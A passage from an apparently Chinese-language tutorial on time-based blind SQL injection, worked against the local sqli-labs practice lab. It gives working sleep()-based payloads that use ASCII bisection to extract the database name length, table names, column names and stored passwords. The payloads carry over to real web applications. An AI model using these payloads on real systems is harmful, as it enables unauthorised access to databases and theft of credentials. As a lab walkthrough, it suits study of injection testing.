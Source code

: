 ![23.png](http://www.myh0st.cn/usr/uploads/2017/12/875355466.png)

以Sqli-labs Less8为例，无论我们怎么输入，输出结果都是You are in ，所以判断为基于时间的盲注。

- 数据库长度判断

```
http://127.0.0.1/sqli-labs/Less-9/?id=1' and if(length(database())>9,0,sleep(5)) --+
```

- 使用二分法获得数据库名

![24.jpg](http://www.myh0st.cn/usr/uploads/2017/12/308484482.jpg)

剩余步骤和基于布尔的差不多，只是加了一个if判断语句进行判断。

- 获取表名：

```
payload = "http://127.0.0.1/sqli-labs/Less-8/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1},0,sleep(5)) %23"
```

- 获取列名：

```
payload = "http://127.0.0.1/sqli-labs/Less-8/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),{0},1))>{1},0,sleep(5)) %23"
```

- 获取内容：

```
payload =  "http://127.0.0.1/sqli-labs/Less-8/?id=1' and if(ascii(substr((select password from users limit 0,1),{0},1))>{1},0,sleep(5)) %23"
```